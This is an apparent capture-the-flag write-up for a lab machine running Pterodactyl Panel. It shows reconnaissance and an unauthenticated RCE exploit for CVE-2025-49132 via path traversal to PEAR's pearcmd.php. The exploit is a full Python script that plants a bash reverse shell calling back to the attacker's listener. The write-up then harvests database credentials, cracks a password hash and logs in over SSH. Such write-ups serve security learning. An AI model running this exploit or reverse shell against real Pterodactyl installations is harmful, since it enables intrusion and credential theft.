



### TL;DR

Pterodactyl Panel v1.11.10 was vulnerable to CVE-2025-49132, an unauthenticated remote code execution through the `/locales/locale.json` endpoint. After gaining initial access as `wwwrun`, I extracted database credentials from the `.env` file, cracked a bcrypt hash, and escalated privileges through SSH as `phileasfogg3`. The privilege escalation path involved exploiting Wazuh agent configurations (CVE-2025-6018 and CVE-2025-6019) to gain root access.

---

### <span style="color:red">Reconnaissance</span>

#### port scan

I started with a fast port scan to identify open services:
```console
$ nmap 10.129.14.17 -p- -A --min-rate 5000                  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-11 14:23 UTC
Nmap scan report for pterodactyl.htb (10.129.14.17)
Host is up (0.025s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 9.6 (protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open   http       nginx 1.21.5
|_http-title: Did not follow redirect to http://pterodactyl.htb/
|_http-server-header: nginx/1.21.5
443/tcp  closed https
8080/tcp closed http-proxy
```

The web server redirected to `pterodactyl.htb`, so I added it to my hosts file:
```console
$ echo "10.129.14.17    pterodactyl.htb" | sudo tee -a /etc/hosts
```

#### directory enumeration

I ran gobuster to discover hidden files and directories:
```console
$ gobuster dir -u http://pterodactyl.htb/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -t 50
===============================================================
Gobuster v3.6
===============================================================
[+] Url:                     http://pterodactyl.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Extensions:              php,txt,html
===============================================================
Starting gobuster scan
===============================================================
/changelog.txt        (Status: 200) [Size: 920]
/index.php            (Status: 200) [Size: 1686]
/phpinfo.php          (Status: 200) [Size: 73006]
===============================================================
```

The presence of `phpinfo.php` suggested a development or misconfigured environment that might leak useful information.

#### subdomain enumeration

Given the domain-based routing, I scanned for virtual hosts:
```console
$ gobuster vhost -u http://pterodactyl.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 50
===============================================================
Found: panel.pterodactyl.htb Status: 200 [Size: 1897]
===============================================================
```

I added this subdomain to my hosts file:
```console
$ tail -1 /etc/hosts
10.129.14.17    pterodactyl.htb panel.pterodactyl.htb
```

#### web-site

The main site advertised a Minecraft server called "MonitorLand":


A changelog file that contained infrastructure details:
```
MonitorLand - CHANGELOG.txt
======================================

Version 1.20.X

[Added] Main Website Deployment
--------------------------------
- Deployed the primary landing site for MonitorLand.
- Implemented homepage, and link for Minecraft server.
- Integrated site styling and dark-mode as primary.

[Linked] Subdomain Configuration
--------------------------------
- Added DNS and reverse proxy routing for play.pterodactyl.htb.
- Configured NGINX virtual host for subdomain forwarding.

[Installed] Pterodactyl Panel v1.11.10
--------------------------------------
- Installed Pterodactyl Panel.
- Configured environment:
  - PHP with required extensions.
  - MariaDB 11.8.3 backend.

[Enhanced] PHP Capabilities
-------------------------------------
- Enabled PHP-FPM for smoother website handling on all domains.
- Enabled PHP-PEAR for PHP package management.
- Added temporary PHP debugging via phpinfo()
```

This revealed some informations:  
\- Pterodactyl Panel v1.11.10 was installed  
\- MariaDB 11.8.3 was the database backend  
\- PHP-PEAR was installed

This version of Pterodactyl Panel was vulnerable to CVE-2025-49132

#### phpinfo

I checked `phpinfo.php` to understand the PHP environment configuration:
```php
disable_functions    no value    
open_basedir         no value      
```

Both security directives were empty, which meant:  
\- No restrictions existed on dangerous PHP functions like `system()`, `exec()`, or `shell_exec()`  
\- Full filesystem traversal was possible with no directory restrictions  

The PHP environment also showed:
```php
include_path    .:/usr/share/php8:/usr/share/php/PEAR
```

This confirmed PHP-PEAR was installed at `/usr/share/php/PEAR`, which would be critical for exploitation since PEAR's `pearcmd.php` could be abused to write arbitrary PHP files.

#### login panel

The subdomain hosted the Pterodactyl Panel login interface:



Without valid credentials, I couldn't access the panel through normal authentication, but the version information confirmed this instance was exploitable.


### <span style="color:red">Exploitation</span>

#### CVE-2025-49132

The vulnerability existed in Pterodactyl Panel's `/locales/locale.json` endpoint, which accepted `locale` and `namespace` query parameters without proper sanitization. The application constructed file paths using these user-controlled inputs and passed them to PHP's `include()` function.

The attack worked by:  
\- Using directory traversal sequences (`../`) to navigate to the PEAR directory  
\- Targeting PEAR's `pearcmd.php`, which accepted commands through URL parameters  
\- Using PEAR's `config-create` command to write arbitrary PHP code to a file  
\- Executing the malicious PHP file through the web server  

This chain allowed unauthenticated remote code execution as the web server user. The impact was severe because an attacker could access the Panel's configuration files, extract database credentials, read sensitive information, and pivot to other systems managed by the panel.

#### Exploitation

I created a Python exploit script that automated the attack:
```python
#!/usr/bin/env python3
import requests
import sys
from urllib.parse import quote

def exploit(target, lhost, lport):
    # Payload: traverse to PEAR and inject PHP code through auto_prepend_file
    payload = f"../../../../../../../../usr/share/php/PEAR/pearcmd&+config-create+/&<?=`bash -c 'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'`?>+/tmp/shell.php"
    
    url = f"{target}/locales/locale.json"
    params = {
        "locale": payload,
        "namespace": "anything"
    }
    
    print(f"[+] Exploiting CVE-2025-49132 on {target}")
    print(f"[+] Sending payload...")
    
    try:
        r = requests.get(url, params=params, timeout=5)
        print(f"[+] Payload sent! Check your listener on {lhost}:{lport}")
    except requests.exceptions.Timeout:
        print(f"[+] Request timeout (expected if shell connected)")
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 4:
        print(f"Usage: {sys.argv[0]} <target> <lhost> <lport>")
        sys.exit(1)
    
    exploit(sys.argv[1], sys.argv[2], sys.argv[3])
```

The script constructed a payload that:  
\- Traversed to `/usr/share/php/PEAR/pearcmd.php`  
\- Passed commands to PEAR's command handler using `&+` separators  
\- Used `config-create` to write a PHP file containing a bash reverse shell  
\- The PHP code executed system commands to establish a connection back to my listener  

I set up a netcat listener and ran the exploit.
```console
$ python3 exploit.py http://panel.pterodactyl.htb 10.10.15.120 4020
[+] Exploiting CVE-2025-49132 on http://panel.pterodactyl.htb
[+] Sending payload...
[+] Payload sent! Check your listener on 10.10.15.120:4020
```
```console
$ nc -lvnp 4020
connect to [10.10.15.120] from (UNKNOWN) [10.129.4.8] 54104
bash: cannot set terminal process group (1211): Inappropriate ioctl for device
bash: no job control in this shell

wwwrun@pterodactyl:/var/www/pterodactyl/public$ id
uid=474(wwwrun) gid=477(www) groups=477(www)
```

#### database enumeration

I navigated to the parent directory and checked the files:
```console
wwwrun@pterodactyl:/var/www/pterodactyl/public$ cd ..
wwwrun@pterodactyl:/var/www/pterodactyl$ ls -la
total 284
drwxr-xr-x 13 wwwrun www   4096 Sep 16 17:15 .
drwxr-xr-x  4 root   root  4096 Sep 16 17:14 ..
-rw-r--r--  1 wwwrun www   1184 Sep 16 17:15 .env
drwxr-xr-x  8 wwwrun www   4096 Sep 16 17:15 .git
```

The `.env` file contained database credentials `pterodactyl:PteraPanel`
```console
wwwrun@pterodactyl:/var/www/pterodactyl$ cat .env
APP_ENV=production
APP_DEBUG=false
APP_KEY=base64:UaThTPQnUjrrK61o+Luk7P9o4hM+gl4UiMJqcbTSThY=
APP_TIMEZONE=UTC

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=panel
DB_USERNAME=pterodactyl
DB_PASSWORD=PteraPanel

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

CACHE_DRIVER=redis
QUEUE_CONNECTION=redis
SESSION_DRIVER=redis

HASHIDS_SALT=pKkOnx0IzJvaUXKWt2PK
HASHIDS_LENGTH=8
```
#### user enumeratio
I connected to the MariaDB database and queried the users table. The database contained two users with bcrypt hashes. The `headmonitor` account had `root_admin: 1`, granting full panel access, while `phileasfogg3` had `root_admin: 0`.
```console
MariaDB [panel]> select * from users \G;
*************************** 1. row ***************************
                   id: 2
          external_id: NULL
                 uuid: 5e6d956e-7be9-41ec-8016-45e434de8420
             username: headmonitor
                email: headmonitor@pterodactyl.htb
           name_first: Head
            name_last: Monitor
             password: $2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2
       remember_token: OL0dNy1nehBYdx9gQ5CT3SxDUQtDNrs02VnNesGOObatMGzKvTJAaO0B1zNU
             language: en
           root_admin: 1
             use_totp: 0
          totp_secret: NULL
totp_authenticated_at: NULL
             gravatar: 1
           created_at: 2025-09-16 17:15:41
           updated_at: 2025-09-16 17:15:41
*************************** 2. row ***************************
                   id: 3
          external_id: NULL
                 uuid: ac7ba5c2-6fd8-4600-aeb6-f15a3906982b
             username: phileasfogg3
                email: phileasfogg3@pterodactyl.htb
           name_first: Phileas
            name_last: Fogg
             password: $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi
       remember_token: 6XGbHcVLLV9fyVwNkqoMHDqTQ2kQlnSvKimHtUDEFvo4SjurzlqoroUgXdn8
             language: en
           root_admin: 0
             use_totp: 0
          totp_secret: NULL
totp_authenticated_at: NULL
             gravatar: 1
           created_at: 2025-09-16 19:44:19
           updated_at: 2025-11-07 18:28:50
2 rows in set (0.001 sec)
```

#### password cracking

I extracted the hashes and attempted to crack them using john:
```console
$ cat hashes.txt
headmonitor:$2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2
phileasfogg3:$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi

$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt hashes.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (phileasfogg3)     
1g 0:00:03:42 DONE (2026-02-11 15:23) 0.004497g/s 316.2p/s 632.5c/s
```
cracked `phileasfogg3`'s password: `!QAZ2wsx`


---

### <span style="color:red">Shell as phileasfogg3</span>

The password worked for SSH authentication:
```console
$ ssh phileasfogg3@pterodactyl.htb
phileasfogg3@pterodactyl.htb's password: !QAZ2wsx
Have a lot of fun...
Last login: Mon Sep 16 19:44:51 2025 from 10.10.14.15
phileasfogg3@pterodactyl:~$ id
uid=1002(phileasfogg3) gid=100(users) groups=100(users)
```


